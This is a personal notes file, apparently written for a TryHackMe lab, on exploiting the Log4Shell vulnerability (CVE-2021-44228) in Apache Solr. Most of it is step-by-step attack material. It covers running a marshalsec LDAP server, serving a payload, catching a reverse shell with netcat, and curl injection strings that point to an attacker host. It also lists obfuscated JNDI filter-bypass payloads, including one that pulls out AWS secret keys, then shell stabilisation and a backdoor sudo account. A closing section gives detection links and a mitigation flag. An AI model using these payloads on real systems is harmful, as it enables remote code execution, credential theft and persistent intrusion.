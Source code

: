 # List of web exploits that leverage java

---

# CVE-2021-44228 (Log4J exploit Notes)

# Proof of concept

## base log4j syntax examples

```
${sys:os.name}
${sys:user.name}
${log4j:configParentLocation}
${ENV:PATH}
${ENV:HOSTNAME}
${java:version}
```

## installing packages you need for the exploit

### setup packages for payload.java and supporting marshalsec files

* (install required packages)

`sudo apt install -y maven default-jre`

* will differ for your linux distro

### grab marshalsec code to help exploit log4j and build the utility
`git clone https://github.com/mbechler/marshalsec.git && cd marshalsec`
`mvn clean package -DskipTests`

#### start the ldap reference server `marshealsec utility` that log4j will interact with

`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://rhost:rport/#sploit"`
`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.10.1:8000/#sploit"`

* rhost = attacker ip
* lport = port of the web server, python3 webserver default to port 8000

### change java type on compile without having to change the default

`javac exploit.java -source 8 -target 8`


## setup web server in directory with the payload java.class file
`python -m SimpleHTTPServer`b
`python3 -m http.server`
`php -S <lhost>:<lport>`

## setup listener to catch the reverse shell

`nc -lvnp <lport>`
`nc -lvnp 8900`

## launch the attack with curl

```
curl 'http://10.10.89.179:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'
wget -qO- 'http://10.10.89.179:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'
```
	* wget will not work, probably missing something

---

# make linux reverse shell stable
1. make stable tty

	`python3 -c 'import pty;pty.spawn("/bin/bash")'

	`script -q /dev/null -c /bin/bash`

2. make it able to clear the screen

	`export TERM=xterm`
0r
	`env | grep TERM`

	`export TERM=<whatever out machine TERM var is>`

	`export TERM=screen-256color`

3. allow ctrl+c without exiting the reverse shell
	`ctrl+z` = background rev shell

	`stty raw -echo;fg` -> enter -> enter

4. match the lines and columns to prevent broken line wraps

	* figure out lhost `rows` and `columns`

		`stty -a`

	* set the rev shell tty to match our machine

		`stty rows <row-number> cols <columns-number>`

		`stty rows 7 cols 94`

---

# log4j detection resources (ref from the thm log4j room
https://tryhackme.com/room/solar

https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes
https://gist.github.com/olliencc/8be866ae94b6bee107e3755fd1e9bf0d
https://github.com/nccgroup/Cyber-Defence/tree/master/Intelligence/CVE-2021-44228
https://github.com/omrsafetyo/PowerShellSnippets/blob/master/Invoke-Log4ShellScan.ps1
https://github.com/darkarnium/CVE-2021-44228

`https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/`
---

# creating a really user for poor persistance or change the log4j solar user's pw

```
passwd solr

0r

useradd <new_username>
passwd <username>
sudo usermod -aG sudo <username>
	* add them to the sudo group

sudo usermod -aG wheel <username>
	* wheel is sudo group for other certain linux distros

# when creating user don't forget to change the default shell from sh to something else
sudo useradd -ms /bin/bash <username>
	m = "home-dir"
	s = "default shell"

```

---

# log4j bypass 

```java
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}

${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}

${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}

${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}

${${::-j}ndi:rmi://attackerendpoint.com/}
```

* NOTE;
* to make use of the `rmi://` protocol or `Java remote method invocation`

* potentially able to extract data from AWS

	`${env:AWS_SECRET_ACCESS_KEY}`

### Additional techniques from reddit

`https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/`

---

# mitigation the log4j vuln
1. locate solr.in.sh file

	`locate solr.in.sh`
	`find / -type f -name solr.in.sh`

2. create backup file before modifying any important file

```
cp /etc/default/
sudo cp solr.in.sh solr.in.sh.bak
``` 

3. add the patch and restart the service to push changes
	* it's ok if you put this at the complete end of the `solr.in.sh` file

```
SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"

sudo /etc/init.d/solr restart
```

* install patch is it's ready for your device/distro
